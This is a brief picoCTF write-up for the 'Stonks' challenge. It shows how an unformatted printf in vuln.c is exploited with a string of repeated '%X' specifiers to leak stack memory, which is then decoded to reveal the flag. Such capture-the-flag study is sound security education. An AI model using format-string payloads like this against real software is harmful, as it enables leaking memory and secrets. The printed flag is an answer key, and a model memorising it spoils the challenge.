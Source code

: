 ### Stonks

going through the file `vuln.c` i come to notice an vulnerable line

![image](https://github.com/oxo-crab/picoCTF/assets/111520157/44a6f7ca-d040-4d48-8431-47fdc093bf38)

here the 'user_buf' is the string we enter when asked for api token, seeing that there's no format identifier in printf statement makes it prone to injection. So by putting "%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X" as input i get bunch of data in hexadecimal

![image](https://github.com/oxo-crab/picoCTF/assets/111520157/ad1581dc-ac04-4bd5-91e8-cdc58649e692)

```9EFD3F0804B00080489C3F7F3CD80FFFFFFFF19EFB160F7F4A110F7F3CDC709EFC18029EFD3D09EFD3F06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E3534303664303664FFC7007DF7F77AF8F7F4A440E47DAE0010F7DD9CE9F7F4B0C0F7F3C5C0F7F3C000FFC73EF8F7DCA68DF7F3C5C08048ECAFFC73F040F7F5EF09804B000F7F3C000F7F3CE20FFC73F38F7F64D50F7F3D890E47DAE00F7F3C000804B000FFC73F38```


translated to 

```��?���H�?<������J<�p����=	���ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06d���}��z����@�}���ݜ���������������>��ܦ������H��s�@���	�K�<�<��s�d�=�G��<�����?8```


using this, we get the key.

*flag:- picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}*

---

